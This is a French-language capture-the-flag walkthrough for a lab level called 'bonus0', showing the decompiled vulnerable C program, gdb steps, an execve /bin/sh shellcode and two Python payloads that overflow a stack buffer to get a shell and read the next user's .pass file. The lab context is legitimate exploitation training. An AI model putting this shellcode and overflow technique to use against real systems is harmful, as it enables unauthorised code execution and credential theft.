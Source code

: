 # Bonus 0
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `bonus1`.

1. Une fois connecté à la VM sur le `bonus0`, l'on retrouve un fichier `bonus0` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet.

	```sh
	> scp -P 4242 bonus0@127.0.0.1:bonus0 /path/on/machine/host
	```

3. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).

    ```sh
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    #include <time.h>
    #include <stdbool.h>

    void p(char *inputBuffer, char *ppBuffer)
    {
    	char buffer[4104];

    	puts(ppBuffer);
    	read(0, buffer, 4096);
    	char* ptr = strchr(buffer, '\n');
    	if (ptr != NULL) {
    		*ptr = '\0';
    	}
    	strncpy(inputBuffer, buffer, 20);
    }

    void pp(char* myBuffer)
    {
    	char global_buffer[4096] = " - ";
    	char input_1[20];
    	char input_2[20];

    	p(input_1, global_buffer);
    	p(input_2, global_buffer);
    	strcpy(myBuffer, input_1);
    	myBuffer[strlen(myBuffer)] = 0x20;
    	strcat(myBuffer, input_2);
    	return;
    }

    int main(void)
    {
    	char myBuffer[54];

    	pp(myBuffer);
    	puts(myBuffer);
    	return EXIT_SUCCESS;
    }
    ```
    À partir de ce désassemblage, on en déduit que le programme se compose de trois fonctions : `main`, `pp`, et `p`.

    La fonction `main` déclare un tableau de caractères appelé `myBuffer` de taille `54` et appelle la fonction `pp` pour remplir ce tableau avec les entrées de l'utilisateur, puis affiche le résultat.

    La fonction `pp` prend un argument de type pointeur vers un tableau de caractères, soit `char* myBuffer`. Elle appelle ensuite la fonction `p` deux fois de manière consécutive pour obtenir deux entrées utilisateur, `input_1` et `input_2`. Enfin, elle concatène ces deux entrées dans `myBuffer`, les séparant par un espace.

    Enfin, la fonction `p` prend deux arguments de type char `*` : `inputBuffer` et `ppBuffer`. Elle lit une ligne d'entrée de l'utilisateur en utilisant `ppBuffer` comme message d'instruction, puis stocke cette entrée dans `inputBuffer`.

4. On constate que le programme de fait aucune appelle directe à une fonction qui permet soit d'exécuter un `shell interactif` soit d'effectuer un `cat` du fichier contenant le mot de passe du niveau suivant. De fait, comme dans certains niveaux précédent, il faudra faire appel à `shellcode` permettant l'exécution d'un `shell interactif`. Pour ce faire, on exploitera une vulnérabilité de débordement de tampon dans la fonction `p` dû à l'utilisation de la fonction `read` sans une vérification appropriée de la taille de l'entrée utilisateur. En effet, en injectant un premier `payload` contenant notre `shellcode` lors de la saisie utilisateur, il est possible de déborder le `buffer` et écraser l'adresse de retour. Le deuxième appel à la fonction `pp` permet, quant à lui, d'utiliser un second `payload` pour redirigeant l'exécution vers le `shellcode`. Cela permet d'obtenir un `shell` avec les droits de l'utilisateur en cours, facilitant l'accès au mot de passe de l'utilisateur `bonus1`.

   Shellcode :

    ```sh
    "\x31\xc0\x50\x68\x2f\x2f\x73"
    "\x68\x68\x2f\x62\x69\x6e\x89"
    "\xe3\x89\xc1\x89\xc2\xb0\x0b"
    "\xcd\x80\x31\xc0\x40\xcd\x80"
    ```

    Lien : https://shell-storm.org/shellcode/files/shellcode-811.html

5. Ainsi, dans un premier temps, l'on va récupérer l'adresse du `buffer` déclarer dans la fonction `p` et utilisé par la fonction `read`. Pour ce faire, on va exécuter `bonus` avec `gdb` en effectuant les étapes ci-dessous.

    ```sh
    (gdb) break p
		Breakpoint 1 at 0x80484bd
	(gdb) run
	(gdb) p/x $ebp - 0x1008
		$1 = 0xbfffe680
	(gdb) disas p
		Dump of assembler code for function p:
			[...]
			0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
			0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
			0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
			0x080484d6 <+34>:    mov    %eax,0x4(%esp)
			0x080484da <+38>:    movl   $0x0,(%esp)
			0x080484e1 <+45>:    call   0x8048380 <read@plt>
			[...]
		End of
	(gdb) b *0x080484d6
		Breakpoint 1 at 0x80484d6
	(gdb) run
    	(gdb) step
	(gdb) info registers
		eax            0xbfffe680	-1073748352
		[...]
    ```

    Ainsi, on obtient l'adresse `0xbfffe680` pour la variable `buffer` dans la fonction `p`.

6. On peut à présent générer les 2 `payloads` ci-dessous.

    - Premier `payload` :

        ```sh
        python -c "print('\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')"
        ```
        On a :
        - `'\x90' * 1000`: L'overflow nécessaire pour mener au `shellcode` ;
	    - `'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'`: Le `shellcode` en lui-même.

    - Second `paylaod` :

        ```sh
        python -c "print('\x90' * 9 + '\x74\xe8\xff\xbf' + '\x90' * 7)"
        ```

        On a :
        - `'\x90' * 9`: L'overflow nécessaire pour mener à l'adresse de la variable `buffer` ;
    	- `'\x74\xe8\xff\xbf'`: L'adresse du `buffer` en format `little-endian`
    	- `'\x90' * 7`: L'overflow nécessaire pour overwrite `input_1` et l'adresse de retour.

        À noter que l'adresse `0xbfffe680` n'est pas directement utilisée comme adresse de `buffer` dans l'exploit. En effet, le programme alloue un tampon de `54 octets`, répartis entre :
        - `20 octets` pour `input_1` ;
        - `20 octets` pour `input_2` ;
        - `1 octet` pour le caractère nul `\0` ajouté par l'utilisation de la fonction `strcat`.

        De fait, `41 octets` du tampon sont déjà occupés par des données.

        De plus, sachant que l'adresse de début du tampon, `0xbfffe680`, étant sur `4 octets`, il reste `9 octets` à combler pour atteindre l'adresse de `input_2` et `7 octets` à combler pour atteindre l'adresse de `input_1`.

        Sachant que l'on utilisant un débordement de `1000 octets` dans le premier `payload`, l'adresse du tampon doit être décalée de la moitié, soit `500 octets`. Résultant, ainsi, en l'adresse finale (0xbfffe874).

        Ce calcul précis permet de contrôler soigneusement le dépassement de tampon, assurant l'atteinte des adresses cible nécessaires à l'exécution réussie du `shellcode`.


7. Il manque plus qu'à lancer le programme avec les `payloads` précédemment définies pour `buffer overflow` la fonction `read` dans `p` en débordant le `buffer`, écraser l'adresse de retour et, ainsi, lancer notre `shell interactif` via notre `shellcode`. On exécute la fonction `whoami` pour s'assurer que l'on est bien l'utilisateur `bonus1` et non plus l'utilisateur `bonus0`. Enfin, on `cat` le fichier `/home/user/bonus1/.pass` pour obtenir le mot de passe.

    ```sh
    > (python -c "print('\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')";python -c "print('\x90' * 9 + '\x74\xe8\xff\xbf' + '\x90' * 7)"; cat -) | ./bonus0
    > whoami
    bonus1
    > cat /home/user/bonus1/.pass
    cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
    ```

8. On peut à présent passer au niveau supérieur en exécutant la commande `su bonus1` et en y spécifiant le mot de passe qui vient d'être trouvée.

    ```sh
    > su bonus1
    Password :
    > cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
    ```
